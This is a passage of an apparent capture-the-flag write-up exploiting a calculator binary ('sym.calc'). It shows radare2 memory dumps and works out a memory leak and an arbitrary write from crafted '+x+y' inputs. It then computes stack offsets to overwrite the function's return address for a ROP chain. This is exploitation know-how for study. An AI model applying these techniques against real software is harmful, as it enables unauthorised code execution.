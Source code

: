 ```
0xffffd2c8  0x00000000 0x00000000 0x00000000 0x00000016  ................
[0x08048f45]> ds
[0x08048f49]> pxw @ 0xffffd2a8
0xffffd2a8  0x0000000b 0x0000000a 0x00000000 0x00000000  ................
0xffffd2b8  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffffd2c8  0x00000000 0x00000000 0x00000016 0x00000016  ................
// Another arbitrary write at result[x]!
```

So at the the vulnerabilities could be resumed:

1. Memory lead - input `+x` leads to leak memory at: result[x - 1] since result[0] is decremented by 1 before the print.
   `ebp + 0x59c = result`.
2. Arbitrary write - input `+x+y` leads to write `y` at `result[x+1], result[x]`.

So, since the stack is not executable a ROP chain is needed in order to exploit these vulnerabilities, of course a leak is required!

Of course, ROP gadgets addresses cannot be written in the result variable or in the ascii_expr variable since these are zeroed each loop in sym.calc.
Shold write these values somewhere else, for example in the stack forward in the unallocated area.

So first thing is to leak an address in .text section, the return address from `sym.calc()` was choosen.

```
ret_addr_from_sym_calc = 0xffffd84c // at ebp+4
ebp = 0xffffd848
var_print = *(ebp - 0x59c + result[0])
x = result[0]

ret_addr_from_sym_calc = var_print =>
ret_addr_from_sym_calc = ebp - 0x59c + x
x = ret_addr_from_sym_calc - ebp + 0x59c =>
x = 1440 => input should be 360 to read result[360-1] so the input at end should be 361.
```

With the previous leak it's possible to calculate the gadgets addresses.

Now before going deep in searching gadgets, it is required to get the address to trigger the ROP execution.

The idea is to overwrite the return address of the sym.calc function, it is located as previously seen at: ebp+4.

```
:> pxw @ ebp 
0xffffd848  0xffffd868 0x08049499 0x080ec200 0x08049434  h...........4...
```

So it's possible to read ebp to get `0xffffd868` address and then the return address is located at `0xffffd868 - 28`.

```
ret_addr_from_sym_calc = 0xffffd84c
leak_addr = 0xffffd848 = ebp
var_print = *(ebp - 0x59c + result[0])
x = result[0]

leak_addr = var_print
x = ebp - ebp + 0x59c => x = 359 => input should be 360.

ret_address_stored_at = output - 28
```

